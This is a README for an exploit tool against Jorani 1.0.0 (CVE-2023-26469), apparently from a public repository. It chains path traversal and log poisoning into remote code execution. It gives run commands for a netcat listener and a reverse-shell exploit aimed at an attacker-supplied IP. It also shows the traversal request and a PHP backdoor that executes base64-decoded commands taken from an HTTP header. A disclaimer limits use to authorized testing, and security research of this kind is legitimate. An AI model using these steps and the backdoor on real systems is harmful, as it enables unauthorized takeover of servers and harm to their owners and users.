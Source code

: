 # Jorani 1.0.0 Exploit (CVE-2023-26469)

**Unrestricted File Upload → Remote Code Execution Exploit**

[![License: GPL v3](https://img.shields.io/badge/License-GPLv3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
[![Python 3.8+](https://img.shields.io/badge/Python-3.8%2B-blue.svg)](https://www.python.org/downloads/)

**Disclaimer**: This tool is for educational and authorized testing purposes only. Misuse of this software is prohibited. The developers assume no liability for damage caused through improper use.

## Table of Contents
- [Description](#description)
- [Vulnerable Versions](#vulnerable-versions)
- [Installation](#installation)
- [Usage](#usage)
- [Technical Details](#technical-details)
- [References](#references)

## Description
This exploit targets a critical vulnerability chain in Jorani v1.0.0 that combines:
1. **Path Traversal** in language parameter
2. **Unrestricted File Upload** leading to Remote Code Execution

The exploit works by poisoning application logs with PHP code and triggering execution through manipulated HTTP headers.

**Credits**:
- Original vulnerability discovery: [@jrjgjk (Guilhem RIOUX)](https://github.com/jrjgjk)
- Exploit adaptation: Samip Mainali

## Vulnerable Versions
Confirmed vulnerable version:
- **Jorani 1.0.0**

Other potentially affected versions (untested):
- Tested on Version 1.0.0 (based on CVE-2023-26469 details)

## Installation
1. Clone repository:
bash
git clone https://github.com/<your-username>/jorani-exploit.git
cd jorani-exploit

Requirements:

Python 3.8+
Requests library
Usage

Start netcat listener:
bash
Copy
nc -lvnp 4444
Run exploit:
bash
Copy
python3 exploit.py -u http://target:port -i YOUR_IP -p LISTENER_PORT
Example:

bash
Copy
python3 exploit.py -u http://192.168.1.100:8080 -i 10.10.14.5 -p 4444
Features:

Automatic protocol detection (HTTP/HTTPS)
Randomized header injection
Connection stability checks
Detailed error diagnostics
Troubleshooting:

If connection fails, verify:
Target URL accessibility
Listener configuration
Firewall rules
Protocol compatibility (HTTP vs HTTPS)
Technical Details

Vulnerability Chain

Log Poisoning:
Path traversal in language parameter allows writing PHP files to log directory
http
Copy
POST /session/login HTTP/1.1
language=../../application/logs
Header-Based Code Execution:
php
Copy
<?php 
if(isset($_SERVER["HTTP_X_CUSTOM_HEADER"])){
    system(base64_decode($_SERVER["HTTP_X_CUSTOM_HEADER"]));
}
Exploit Workflow

CSRF token extraction
Log file poisoning with PHP backdoor
Reverse shell triggering via custom header
Connection stability verification
Key Features

Randomized HTTP header names for each execution
Automatic protocol detection and validation
Connection timeout handling
Color-coded status output
References

CVE-2023-26469 Advisory
Original Research by Guilhem RIOUX

Legal Notice
This software is provided "as-is" without any warranty. Users are solely responsible for ensuring they have proper authorization to test systems using this tool. The developers disclaim all liability for unauthorized or malicious use.
